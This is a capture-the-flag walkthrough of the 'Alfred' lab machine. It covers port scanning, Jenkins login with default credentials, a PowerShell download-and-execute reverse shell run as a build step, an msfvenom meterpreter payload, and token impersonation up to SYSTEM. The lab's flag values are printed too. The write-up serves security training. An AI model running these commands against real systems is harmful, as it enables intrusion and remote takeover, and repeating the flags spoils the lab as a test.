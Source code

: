 ﻿## Alfred 
Exploit Jenkins to gain an initial shell, then escalate the privileges by exploiting Windows authentication tokens.

### Reconnaissance
The default page of the web server on port 80 is showing a image of Bruce Wyne and a donations email. But nothing else.

With the help on nmap, lets see what ports are open and services are running on the victim machine. 

    nmap -p- -A 10.10.86.199
    
    PORT     STATE SERVICE            VERSION
    80/tcp   open  http               Microsoft IIS httpd 7.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: Site doesn't have a title (text/html).
    3389/tcp open  ssl/ms-wbt-server?
    |_ssl-date: 2020-07-02T21:47:32+00:00; 0s from scanner time.
    8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
    | http-robots.txt: 1 disallowed entry 
    |_/
    |_http-server-header: Jetty(9.4.z-SNAPSHOT)
    |_http-title: Site doesn't have a title (text/html;charset=utf-8).
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

On port 80, we can see Microsoft IIS 7.5 web server is running 
8080 - Another HTTP server on Jetty 9.4 and a robots.txt is there which can help. By visiting on port 8080, there is a Jenkins service running. 
3389 - Looks RDP port is open. 
OS: Windows 

### Logging into Jenkins
Thought to brute force using different payloads, but while trying to capture the HTTP request, the admin:admin credentials worked. 

### Getting a reverse shell 
After looking around the tool, for executing the command on the underlying machine, found it under project --> configure --> Build.
As this is a Windows operating system, framed a powershell utility which can get executed and opens a reverse shell.
For this, 
- Download the powershell code which opens a reverse shell from [Git.](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)  
- Start a simple webserver using `python3 -m http.server` in the same directory. So the victim will be able to download the powershell code file. 
- Frame the command that needs to get executed on the operating system. In this case, I will listen for remote shell on 8001 port.
 `powershell iex (New-Object Net.WebClient).DownloadString('http://10.2.18.4:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.18.4 -Port 8001`
- Open netcat in another terminal and listen on 8001 port. `nc -lnvp 8001`
- Navigate to Jenkins and goto, project configuration and paste the powershell command that was framed above under build. So our command will become part of build process. 
- Build the project using "Build now" and the victim is connected to http server and downloaded the reverse shell code and then a reverse shell in the netcat server. 
- The reverse shell is opened with user alfred\bruce and have below privileges enabled:
- 

    PS C:\Users\bruce\Desktop> whoami /priv
    
    PRIVILEGES INFORMATION
    ----------------------
    
    Privilege Name                  Description                               State   
    =============================== ========================================= ========
    SeDebugPrivilege                Debug programs                            Enabled 
    SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
    SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
    SeCreateGlobalPrivilege         Create global objects                     Enabled 

- The flag is under  `C:\Users\bruce\Desktop\user.txt` as *79007a09481963edf2e1321abd9ae2a0*. 


### Getting a Meterpreter shell
For much convenience and to work on privilege escalation, lets get meterpreter shell. 
- Create a payload file which opens a reverse shell and save it in the same place where the webserver is running, so the victim will be able to download. 

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.18.4 LPORT=8002 -f exe -o shell.exe`

- Create a reverse shell listener using Metasploit with exploit/multi/handler and having a PAYLOAD windows/meterpreter/reverse_tcp LHOST 10.2.18.4 LPORT 8002.

- 

    msf5 exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.2.18.4:8002 

- Get this shell.exe downloaded to victim machine by executing the powershell command on the reverse shell that was already opened and start the process. 
-  

    PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
    PS C:\Users\bruce\Desktop> dir
    
    
        Directory: C:\Users\bruce\Desktop
    
    
    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---          7/2/2020   5:01 PM      73802 shell.exe                         
    -a---        10/25/2019   3:22 PM         32 user.txt                          
    
    
    PS C:\Users\bruce\Desktop> Start-Process "shell.exe"
- The metasploit now will open a meterpreter shell.
-

    meterpreter > sysinfo 
    Computer        : ALFRED
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter > 

- `load incognito` module in meterpreter. 
- List all the tokens that are available for the user, using `list_tokens -g` and we can see the user has a delegation token of BUILTIN\Administrators. 
- Lets impersonate as administrator using `impersonate_token "BUILTIN\Administrators"`.
- Verify, by using `getuid`  
-

     meterpreter > getuid 
     Server username: NT AUTHORITY\SYSTEM
- Though we have privileged user, due to impersonating we will not be able to access complete system due to windows security.  To test this, goto C:\Windows\system32\config directory and will see only files which have full permissions.
- 

    meterpreter > dir
    Listing: C:\Windows\system32\config
    ===================================
    
    Mode             Size  Type  Last modified              Name
    ----             ----  ----  -------------              ----
    40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  Journal
    40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  RegBack
    40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  TxR
    40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  systemprofile

- We need migrate our process to a more stable and equally privileged process by checking the processes that are running on the victim.
  `1440  2848  shell.exe             x86   0        alfred\bruce                  C:\Users\bruce\Desktop\shell.exe`

- `meterpreter > ps`
- Migrating to services.exe
- `668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe`
- 

    meterpreter > migrate 668
    [*] Migrating from 1440 to 668...
    [*] Migration completed successfully.
    meterpreter > ls -lrt
    Listing: C:\Windows\system32\config
    ===================================
- Now we can see all the files under config including our flag root.txt, which has the value *dff0f748678f280250f25a45b8046b4a*.

